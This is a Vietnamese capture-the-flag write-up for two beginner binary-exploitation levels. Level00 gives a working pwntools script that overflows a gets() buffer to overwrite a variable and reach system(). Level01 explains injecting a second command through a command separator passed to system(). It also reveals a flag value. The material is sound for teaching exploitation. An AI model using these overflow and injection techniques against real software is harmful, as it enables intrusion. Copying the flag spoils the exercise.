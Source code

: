 # thực hành khai thác lỗ hổng phần mềm

## Level00

![image](https://hackmd.io/_uploads/ry6Ju6ALp.png)
đây là file chạy  32 bit trên linux

mình dùng IDA 32 bit để reverse chương trình được:
![image](https://hackmd.io/_uploads/HJAUOaALT.png)

bài này gặp lỗi buffer over flow vì dùng hàm get() và nếu biến v5 bằng 6969 thì chúng ta có thực hiện hàm system() để có  thể lấy được flag
 và mình sẽ nhập vào đủ 10 của biến s rồi ghi đè lên biến v5 giá trị 0x1B39 (6969 ở hệ 10)
 
```python=
#!/usr/bin/python3.7

from pwn import *

context.binary = exe = ELF('./Level00')

p = process(exe.path)

payload = b'A'*10 
payload += p32(0x1B39)

p.sendlineafter(b'ban: ', payload)


p.interactive()
```
 
![image](https://hackmd.io/_uploads/HJ7HsT08T.png)

và mình nhận được flag là: 
**KMA{4a57bff247b8cadf842ff34481979145}**

## Level01

![image](https://hackmd.io/_uploads/HkwdhTCU6.png)
đây là file chạy  32 bit trên linux

mình dùng IDA 32 bit để reverse chương trình được:

![image](https://hackmd.io/_uploads/B1g7u6pCIa.png)
chương trình này cho phép ta nhập vào chuỗi s và nối nó vào sau chuỗi dest rồi thực hiện hàm hệ thống system() vậy chúng ta chỉ cần nhập vào chuỗi s dấu ngắt lệnh  echo và thực hiện lệnh mà chúng ta muốn 


![image](https://hackmd.io/_uploads/HkhUapALp.png)
